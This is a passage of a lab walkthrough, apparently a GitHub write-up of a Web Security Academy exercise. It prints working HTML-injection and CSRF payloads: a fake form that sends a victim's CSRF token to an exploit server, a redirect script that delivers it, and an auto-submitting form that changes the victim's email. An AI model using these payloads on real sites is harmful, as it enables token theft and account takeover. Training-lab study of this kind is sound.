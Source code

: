 The XSS vector targets the `email` parameter. You can inject a closing tag to break the existing form and introduce your own:

```html
"></form><form class="login-form" name="evil-form" action="https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log" method="POST">
````
<img width="1494" height="641" alt="image" src="https://github.com/user-attachments/assets/a969ba73-f1b4-4a57-aa84-9b84d3d95b47" />


This form will capture and submit any autofilled CSRF token field to your exploit server.

---

### Step 2: Host Exploit on Exploit Server

Payload:

```html
<script>
location = 'https://0a3a006c041ba288822ff20900fa00c8.web-security-academy.net/my-account?email=%22%3E%3C/form%3E%3Cform%20class=%22login-form%22%20name=%22evil-form%22%20action=%22https://exploit-0aad00e50419a26982bdf14301f9006c.exploit-server.net/log%22%20method=%22GET%22%3E%3Cbutton%20class=%22button%22%20type=%22submit%22%3EClick%20me%3C/button%3E';
</script>
```

* Host this code on the **Exploit Server**.
* Click **"Deliver exploit to victim"**.

<img width="983" height="559" alt="image" src="https://github.com/user-attachments/assets/31efc920-37b1-4706-86ff-d192e70aec58" />

---

### Step 3: Capture the CSRF Token

Once the victim visits the exploit page, the fake form submits the CSRF token to your server. You can view this in the **Exploit Server Logs**.

<img width="1920" height="110" alt="image" src="https://github.com/user-attachments/assets/ecb00f80-9533-44f6-ace1-18906447aabe" />

---

### Step 4: Craft CSRF PoC to Change Email

After obtaining the token, use Burp Suite's **Generate CSRF PoC** tool or create your own like below:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a54003704a897438303ff0e00f40097.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;evil&#45;user&#46;net" />
      <input type="hidden" name="csrf" value="lPYOYwKwk9iSWIfnAcG7bXDBLtzXPzvG" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
